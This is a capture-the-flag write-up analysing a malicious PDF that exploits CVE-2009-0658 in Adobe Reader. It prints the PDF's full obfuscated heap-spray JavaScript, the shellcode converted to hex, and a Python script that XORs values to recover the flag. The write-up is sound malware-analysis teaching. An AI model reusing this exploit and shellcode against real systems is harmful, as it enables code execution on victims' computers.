





## Initial
This challenge starts with a single PDF file. As with most CTF files I examine, I normally transfer them to my [FLARE VM](https://github.com/mandiant/flare-vm). When I attempted to import this file however, it was flagged as malicious by Windows Defender.



I instead try to open it in a Linux VM, and it it a single page PDF file with the front page of the infamous [Mandiant APT 1 Report](https://www.mandiant.com/resources/apt1-exposing-one-of-chinas-cyber-espionage-units).



A cursory scan of the file in strings didn't show anything obvious, but as Windows Defender flagged it as malicious, I took a look at it's [VirusTotal entry](https://www.virustotal.com/gui/file/15f3d918c4781749e3c9f470740485fa01d58fd0b003e2f0be171d80ce3b1c2c/detection). VirusTotal is a repository of files that have been scanned by 50+ virus scanners where you can see the results. In this instance it's flagged by 33/60 scanners, indicating that it thinks it is malicious.



There are multiple references to a PDF exploit and one to [CVE-2009-0658](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-0658) 


## Understanding CVE-2009-0658
CVE-2009-0658 is an exploitable buffer overflow vulnerability for Abobe Reader. If this was to be opened by a vulnerable version of Adobe Reader, it could potentially perform code execution. Judging by the VT hits, it's likely that this file is weaponized with the exploit.

My first hit of an exploit was from [ExploitDB](https://www.exploit-db.com/exploits/8099) which had a link to a Talos Intelligence [page](http://blog.talosintelligence.com/2009/02/have-nice-weekend-pdf-love.html) documenting details of the exploit. Apparently, unbenknownst to myself, Acrobat Reader at one stage allowed Javascsript to run on PDF documents and the exploit itself executes a specially crafted embedded JS payload.

## Finding and extracting the payload

Finding the payload in the file would be the next focus. Using [pdf-parser](https://blog.didierstevens.com/programs/pdf-tools/), a list of PDF 'objects' is listed in the file. Having no idea how the tool works or how PDF objects work, I just ran it blindly to see what output it created.

Note: Truncated for brevity...

```
PDF Comment '%PDF-1.5\r\n'

PDF Comment '%\xea\xbb\xc1\x9c\r\n'
<truncated>

obj 5 0
 Type: /Action
 Referencing: 6 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 6 0 R
  >>


obj 6 0
 Type:
 Referencing:
 Contains stream

  <<
    /Length 6170
    /Filter '[  \r\n /Fla#74eDe#63o#64#65  /AS#43IIHexD#65cod#65 ]'
  >>

<truncated>

trailer
  <<
    /Size 10
    /Root 1 0 R
    /Prev 7169
  >>

startxref 21163

PDF Comment '%%EOF\n'
```

Object '5 0' References doing something with Javascript and also references object '6 0' which appears to have some sort of code in it. Next, extracting that object may bring us closer to the answer. Extracting the object to disk can be done by running `python pdf-parser.py APT9001.pdf -o 6 -d obj6`. Looking at the output looked nonsensical, but running `file` on it shows it to be "zlib compressed data", so decompressing it using `zlib-flate` gives us an output. Converting this data from hex to ascii gives us some Javascript code.

```javascript
var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape(
  "%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff"
);
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 128;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0;
  --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
)
  MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA =
  fJWhwERSDZtaZXlhcREfhZjCCVqFAPS +
  ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length;
while (
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length <
  fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
)
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY +=
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb =
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(
    0,
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
  );
MOysyGgYplwyZzNdETHwkru =
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.substring(
    0,
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length -
      fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
  );
while (
  MOysyGgYplwyZzNdETHwkru.length +
    fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA <
  0x40000
)
  MOysyGgYplwyZzNdETHwkru =
    MOysyGgYplwyZzNdETHwkru +
    MOysyGgYplwyZzNdETHwkru +
    UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb;
DPwxazRhwbQGu = new Array();
for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 100;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++
)
  DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] =
    MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 142;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0;
  --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
)
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");
bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20;
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length < bGtvKT)
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf +=
    zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(
  0,
  zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length - bGtvKT
);
while (QCZabMzxQiD.length + bGtvKT < 0x40000)
  QCZabMzxQiD = QCZabMzxQiD + QCZabMzxQiD + Juphd;
FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();
for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 0;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA < 125;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++
)
  FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[
    EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
  ] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
```

I spent the majority of the time analyzing the Javascript only to realise this is the exploit itself. The code wraps the shellcode (`IxTUQnOvHg`) around the large payload on top which causes the buffer overflow. Instead of wasting time further analyzing the Javascript, my focus now turns to the shellcode itself.

Admittedly, this was another major stumbling block for me.  The shellcode was in unicode format which I had initially mistaken as two bytes joined together. When I split the data however, ther shellcode was not readable. Only after further research did I realise that the endianness of it was swapped, i.e. the bytes needed to be split then swapped for it to make sense.

Some quick python to the rescue:

```python
payload = '<payload>'
for p in payload.split('%u'):
  print(p[2:4], p[0:2], end=" ")
```

Decoded payload:
```
f9 72 49 46 25 15 0d 7f 3c 3d 84 e0 2a d6 39 e1 4a a8 b9 76 24 98 78 73 71 7d 7f 75 76 20 d4 96 91 ba 70 19 f9 b8 32 e2 7b 46 a8 9b 01 fe c6 c7 c1 e3 24 7e 7c 43 80 e1 15 b1 b2 b3 66 4f b6 27 3c 9f 4e 7a 2d 41 bf bb 05 77 28 f5 93 92 90 99 98 a9 47 0a eb 14 49 3d 4b 48 2f 37 8d b9 78 34 b4 0b d2 d5 31 e0 72 35 10 d6 40 67 be 2b fd 4a 1c 04 97 3f 3a fc 79 74 1d 42 b5 b7 2c 0c 0d 13 f8 25 b0 76 79 4e b1 7b 66 0c bb 2d 1c 91 2f a9 2c b8 b0 8d 7e 0d 96 3b d4 49 6b d5 b7 03 f7 e1 7d 46 b9 77 42 3d 1d 11 e0 67 92 4b 85 eb 71 24 48 9b 02 f9 15 4f ba 04 00 e3 27 87 d6 9f 70 47 7a 18 e2 73 1b fd 74 25 7c 43 90 41 b6 97 99 14 3c 78 37 83 f8 b3 35 72 3f 69 f5 98 be 7f 75 4a 93 b4 a8 b5 bf 21 d0 fc 40 34 7b 05 b2 b2 71 7c 4e 81 e1 22 eb 04 4a 88 e2 2c 2d 49 42 8d b3 75 23 f5 7f 72 0b fc 97 01 f7 d3 f9 90 be 41 1c a8 25 7d 35 b1 78 79 0a f8 32 fd 9b 76 1d 92 b4 bb b8 77 7e 70 73 40 7a 0c 89 d6 91 24 46 14 ba 9f 87 c0 d4 0d b0 4b 2f b6 81 e3 74 05 b9 3f 67 1b d5 93 96 83 e0 66 b5 47 b7 98 3c 15 34 a9 48 37 27 3d 75 4f bf 8c e2 43 99 b8 73 38 eb 7d 7a 25 85 f9 8d bb 91 7f 67 96 92 b2 79 48 3c 4a 33 d4 a9 97 7e 37 47 b3 3d 93 24 05 3f 9f 39 e1 71 35 b4 23 d6 a8 14 88 d1 f8 72 42 ba 76 08 fd 41 be 4b b5 0d 15 77 43 74 11 e3 78 20 e0 1c 04 bf 40 10 d5 27 b7 b1 70 2b f5 2f 22 fc 4e 9b 98 1d 90 2c b6 7c 4f 2d 34 66 0c 99 b0 49 7b 7a 78 7e 7f 73 7d 46 b9 91 b0 8d 92 bf 90 b7 21 f6 e0 4b 13 f5 29 eb 67 77 25 86 e1 05 2a d6 66 b9 a8 35 15 96 42 98 34 99 b1 ba b4 2c b5 12 f8 93 4f 76 7b 79 30 fd be 71 3f 40 4e b3 7c 75 27 09 e2 24 43 70 0c 2d 18 e3 02 f9 4a 47 bb b6 41 9f 72 48 97 80 d4 28 d5 9b 74 3c 1c 84 fc 7d 49 b8 7e 6b d2 e0 1d 76 0d 74 31 eb 14 70 37 a9 71 3d 72 46 b2 78 2f 7f 04 a9 b6 7b 1c 73 3a e1 3c be 19 f9 34 00 d5 7a 03 f8 e2 24 b0 4e fd 79 3d 96 75 15 9b 49 7c 2f b4 4f 9f 99 47 3b c1 d0 e3 14 40 3f 90 bf 41 97 43 8d b8 48 b5 77 0d b2 4a 93 2d 67 92 98 b1 1a fc b9 d4 2c b3 f5 ba 0c 69 d6 91 a8 04 bb 1d 66 46 05 25 b7 35 42 37 27 4b 90 fc 33 d2 b2 30 64 ff 32 5a 8b 52 0c 8b 52 14 8b 72 28 33 c9 b1 18 33 ff 33 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 03 f8 e2 f0 81 ff 5b bc 4a 6a 8b 5a 10 8b 12 75 da 8b 53 3c 03 d3 ff 72 34 8b 52 78 03 d3 8b 72 20 03 f3 33 c9 41 ad 03 c3 81 38 47 65 74 50 75 f4 81 78 04 72 6f 63 41 75 eb 81 78 08 64 64 72 65 75 e2 49 8b 72 24 03 f3 66 8b 0c 4e 8b 72 1c 03 f3 8b 14 8e 03 d3 52 33 ff 57 68 61 72 79 41 68 4c 69 62 72 68 4c 6f 61 64 54 53 ff d2 68 33 32 01 01 66 89 7c 24 02 68 75 73 65 72 54 ff d0 68 6f 78 41 01 8b df 88 5c 24 03 68 61 67 65 42 68 4d 65 73 73 54 50 ff 54 24 2c 57 68 44 21 21 21 68 4f 57 4e 45 8b dc e8 00 00 00 00 8b 14 24 81 72 0b 16 a3 fb 32 68 79 ce be 32 81 72 17 ae 45 cf 48 68 c1 2b e1 2b 81 72 23 10 36 9f d2 68 71 44 fa ff 81 72 2f f7 a9 a9 0c 68 84 e9 cf 60 81 72 3b be 93 a9 43 68 d2 a3 98 37 81 72 47 82 8a 62 3b 68 ef a4 11 4b 81 72 53 d6 47 c0 cc 68 be 69 a4 ff 81 72 5f a3 ca 54 31 68 d4 ab 65 52 8b cc 57 53 51 57 8b f1 89 f7 83 c7 1e 39 fe 7d 0b 81 36 42 45 45 46 83 c6 04 eb f1 ff d0 68 65 73 73 01 8b df 88 5c 24 03 68 50 72 6f 63 68 45 78 69 74 54 ff 74 24 40 ff 54 24 40 57 ff d0
```

Loading this into Cutter shows that we are on the right track as there are noteworthy strings like 'LoadLibraryA', 'MessageBox' and 'OWNED!!!'



This suggests that the exploit when executed may have popped up a messagebox with 'OWNED!!!' on it. 

## Decrypting the flag

Immediately after this, there's a series of XOR opcodes and some bytes pushed to the stack.  As we've seen before, XORing is a great way to hide data from plain sight. One issue here however is that the XORing occurs at offsets of edx, which we do not know the value of. 



We do see a pattern of 'xor and push' commands happening 8 times, so it's likely they are related. Let's try to XOR the pairs in python and see if this reveals something interesting..

```python
#!/usr/bin/env python3

p = [0x32fba316, 0x48cf45ae, 0xd29f3610, 0x0ca9a9f7, 0x43a993be, 0x3b628a82, 0xccc047d6, 0x3154caa3]
q = [0x32bece79, 0x2be12bc1, 0xfffa4471, 0x60cfe984, 0x3798a3d2, 0x4b11a4ef, 0xffa469be, 0x5265abd4]

out = ""
for i in range(len(p)):
    out += hex(p[i] ^ q[i])[2:]
out = bytearray.fromhex(out)
out.reverse()
print(out.decode())

# wa1ch.d3m.spl01ts@flare-on.comE
```

Flag: `wa1ch.d3m.spl01ts@flare-on.com`

## Tools Used
- VirusTotal
- pdf-parser
- Cutter
